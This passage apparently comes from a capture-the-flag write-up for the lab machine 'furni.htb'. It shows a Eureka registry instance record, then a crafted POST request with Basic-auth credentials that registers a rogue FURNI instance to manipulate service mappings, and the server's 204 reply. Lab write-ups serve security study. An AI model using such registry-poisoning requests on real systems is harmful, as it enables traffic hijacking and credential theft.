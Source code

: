 ```shell
{"instance":{"instanceId":"host.docker.internal:webservice:8082","app":"WEBSERVICE","appGroupName":null,"ipAddr":"192.168.2.1","sid":"na","homePageUrl":"http://host.docker.internal:8082/","statusPageUrl":"http://host.docker.internal:8082/actuator/info","healthCheckUrl":"http://host.docker.internal:8082/actuator/health","secureHealthCheckUrl":null,"vipAddress":"webservice","secureVipAddress":"webservice","countryId":1,"dataCenterInfo":{"@class":"com.netflix.appinfo.InstanceInfo$DefaultDataCenterInfo","name":"MyOwn"},"hostName":"host.docker.internal","status":"UP","overriddenStatus":"UNKNOWN","leaseInfo":{"renewalIntervalInSecs":30,"durationInSecs":90,"registrationTimestamp":0,"lastRenewalTimestamp":0,"evictionTimestamp":0,"serviceUpTimestamp":0},"isCoordinatingDiscoveryServer":false,"lastUpdatedTimestamp":1630906180645,"lastDirtyTimestamp":1630906182808,"actionType":null,"asgName":null,"port":{"$":8082,"@enabled":"true"},"securePort":{"$":443,"@enabled":"false"},"metadata":{"management.port":"8082"}}}


```

Therefore we prepared a payload in order to see if we could manipulate the mappings.

```shell
POST /eureka/apps/FURNI HTTP/1.1
Host: furni.htb:8761
Cache-Control: max-age=0
Authorization: Basic RXVyZWthU3J2cjowc2NhclBXRGlzVGhlQjNzdA==
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://furni.htb:8761/
Accept-Encoding: gzip, deflate, br
Cookie: SESSION=ODU5MTkzZDItNzQ0ZS00MWIzLTkxM2EtOWRlOTY0NWFmODY2; JSESSIONID=0C77FE994AEC3A26E4EC265E0443D8CD
Content-Type: application/json
Connection: keep-alive
Content-Length: 946

{"instance":{"instanceId":"localhost:furni:8082","app":"FURNI","appGroupName":null,"ipAddr":"10.129.140.42","sid":"na","homePageUrl":"http://127.0.0.1:8082/","statusPageUrl":"http://127.0.0.1:8082/actuator/info","healthCheckUrl":"http://127.0.0.1:8082/actuator/health","secureHealthCheckUrl":null,"vipAddress":"furni","secureVipAddress":"furni","countryId":1,"dataCenterInfo":{"@class":"com.netflix.appinfo.InstanceInfo$DefaultDataCenterInfo","name":"MyOwn"},"hostName":"localhost","status":"UP","overriddenStatus":"UNKNOWN","leaseInfo":{"renewalIntervalInSecs":30,"durationInSecs":90,"registrationTimestamp":0,"lastRenewalTimestamp":0,"evictionTimestamp":0,"serviceUpTimestamp":0},"isCoordinatingDiscoveryServer":false,"lastUpdatedTimestamp":1630906180645,"lastDirtyTimestamp":1630906182808,"actionType":null,"asgName":null,"port":{"$":8082,"@enabled":"true"},"securePort":{"$":443,"@enabled":"false"},"metadata":{"management.port":"8082"}}}


```

```shell
HTTP/1.1 204 
Vary: Origin
Vary: Access-Control-Request-Method
Vary: Access-Control-Request-Headers
X-Content-Type-Options: nosniff
X-XSS-Protection: 0
Cache-Control: no-cache, no-store, max-age=0, must-revalidate
Pragma: no-cache
Expires: 0
X-Frame-Options: DENY
Date: Sat, 26 Apr 2025 19:37:11 GMT
Keep-Alive: timeout=60
Connection: keep-alive

```